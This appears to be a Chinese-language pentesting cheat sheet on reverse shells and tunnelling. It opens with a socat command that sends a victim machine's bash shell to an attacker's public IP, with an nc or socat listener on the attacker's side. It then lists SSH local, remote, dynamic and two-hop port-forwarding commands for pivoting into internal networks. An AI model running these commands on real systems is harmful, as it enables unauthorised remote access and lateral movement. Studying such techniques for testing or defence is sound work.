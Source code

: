 * * *

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:公网IP:公网端口

攻击机：socat TCP-LISTEN:端口 - ，nc监听也行

SSH

* * *

穿透两个网络

公网跳板A：跳板A在B和C的两个内网中间

```
`打开sshd的Gateway功能：``修改/etc/ssh/sshd_config，将 GatewayPorts 设置为yes``内网1中的B：ssh -p 22 -qngfNTR A``监听端:localhost:22 A用户@A地址``内网2中的C：ssh -p A监听的端口 B用户@A地址`
```

本地流量转发

* * *

```
`#VPS``ssh -CfNg -L VPS端口:目标主机:目标端口跳板机用户@跳板机IP``#攻击端流量到VPS端口，被转发`
```

为什么说是“本地”（单纯的-L选项）：

本地端口转发绑定的是 lookback 接口，这意味着只有localhost 或者 127.0.0.1 才能使用本机的端口转发 , 其他机器发起的连接只会得到“ connection refused. ”

但是可以利用GatewayPorts（-g）关键字来与其他机器共享这个本地转发端口。

远程转发

* * *

```
`#跳板主机``ssh -CfNg -R VPS端口:目标主机:目标端口VPS用户@VPS的IP``#攻击端流量到VPS端口，被转发`
```

动态转发

* * *

```
`ssh -CfNg -D 本地代理端口 VPS用户@VPSIP``#流量转发到VPS`
```

两层ssh

* * *

* * *

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```
`#Server2``ssh -CfNg -D 8882 User_Server3@Server3``#Server1``ssh -CfNg -L 8080:Server2:8882User_Server2@Server2``客户端socks5代理Server1:8080`
```

NPS
